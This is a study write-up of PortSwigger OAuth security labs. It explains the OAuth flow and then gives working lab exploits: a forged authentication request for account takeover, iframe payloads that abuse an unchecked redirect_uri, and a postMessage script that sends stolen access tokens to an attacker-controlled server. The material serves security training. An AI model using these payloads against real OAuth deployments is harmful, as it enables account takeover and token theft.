 ```yaml
---
title: PortSwigger - OAuth Labs 
date: '2024-06-10'
tags: ['PortSwigger', 'PortSwigger Labs', 'Web Security']
draft: false
summary: 
---
```


## OAuth
Instead of manually entering PII data, the user can click on sign in with google and the website will request your PII from google on your behalf and use to sign you up.

Entites in OAuth :
- Client Application
- Resource Owner
- OAuth Service provider

There are different types of OAuth flows or grant types.
- Authorization code (`response_type=code`)
- implicit grant (`response_type=token`)

1. The client application requests access to a subset of the user's data, specifying which grant type they want to use and what kind of access they want.
2. The user is prompted to log in to the OAuth service and explicitly give their consent for the requested access.
3. The client application receives a unique access token that proves they have permission from the user to access the requested data. Exactly how this happens varies significantly depending on the grant type.
4. The client application uses this access token to make API calls fetching the relevant data from the resource server.

Following parameters are involved in an OAuth request :
- `client_secret` : A secret shared with the client when it registers itself with OAuth service
- `scope` : defines the scope of the data requested i.e., contact info, email address , msisdn
- `authorization code`: If user clicks on allow this app on google page, google gives this code to the application
- `access token` : The app then gives the authorization token to google and it gives the access_token
- The access token is then finally used in the API call to get the requested scope info
- `state`: unguessable value passed in the request
- `grant_type`: Type of OAuth flow being used
- `redirect_uri`: The uri which user browser will redirect to when sending authorization code to the client application

![[Pasted image 20240721130055.png]]

> OAuth can be used for Authentication as well, by using the same access token(give by OAuth service) on the client application


Check the OAuth provider being used the by the website, most of these providers have publicly available documentations.

---- 

# Labs

####  Lab: Authentication bypass via OAuth implicit flow

Simple authentication bypass in the below request we changed the username and email to `carlos` and the OAuth flow which lead to account takeover.

```
POST /authenticate HTTP/2
Host: 0a7800ed0329f210820b1f29000100ec.web-security-academy.net
Cookie: session=i62PrPxWR2pMrRjU5iOMH3gfdt4uxH9R
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7800ed0329f210820b1f29000100ec.web-security-academy.net/oauth-callback
Content-Type: application/json
Content-Length: 103
Origin: https://0a7800ed0329f210820b1f29000100ec.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

{"email":"wiener@hotdog.com","username":"wiener","token":"3xGux18fKGtaTDhpfUWIQghPbfjXwJHKywGlpcduSnT"}
```


##### Leaking authorization codes and access tokens

```
In this lab we observed that redirect_url parameter in OAuth could be used to submit any arbitary value without any issue. 


https://oauth-0ad000e0042feecab57ec0dc02fd0009.oauth-server.net/auth?client_id=zhbq6777jywbiwa3krxnk&redirect_uri=https://exploit-0a770084041bee20b566c1d601190087.exploit-server.net/exploit&response_type=code&scope=openid%20profile%20email


So we added the url of our exploit server to the link and sent this iframe to victim

<iframe src="https://oauth-0ad000e0042feecab57ec0dc02fd0009.oauth-server.net/auth?client_id=zhbq6777jywbiwa3krxnk&redirect_uri=https://exploit-0a770084041bee20b566c1d601190087.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>

Victim clicked on this iframe which lead to victim sharing their authorization token with us. We used this token to login to their account
```


#### Stealing OAuth access tokens via a proxy page
The goal here is to leak authorization token to an attacker controlled page or server.

First we identified a path traversal vulnerability in `redirect_uri` paramter
```http
https://oauth-0a3f00be03dddb7e804d790602a0002c.oauth-server.net/auth?client_id=r530xxhu0zxix98omzwqg&redirect_uri=https://0ac400e30362dbb380697baf00420095.web-security-academy.net/oauth-callback/../&response_type=token&nonce=1073277704&scope=openid%20profile%20email
```

We leverage this path traversal with a post message we found in the code. This postmessage allowed messages to be posted to any origin.

Final payload :

```javascript
<iframe src="https://oauth-0a3f00be03dddb7e804d790602a0002c.oauth-server.net/auth?client_id=r530xxhu0zxix98omzwqg&redirect_uri=https://0ac400e30362dbb380697baf00420095.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1295109921&scope=openid%20profile%20email"></iframe>

<script>
	window.addEventListener('message',function(e){
		fetch("/"+encodeURIComponent(e.data.data))
	}, false)
</script>
```

This exploit is dilevered to victim which gives us the token.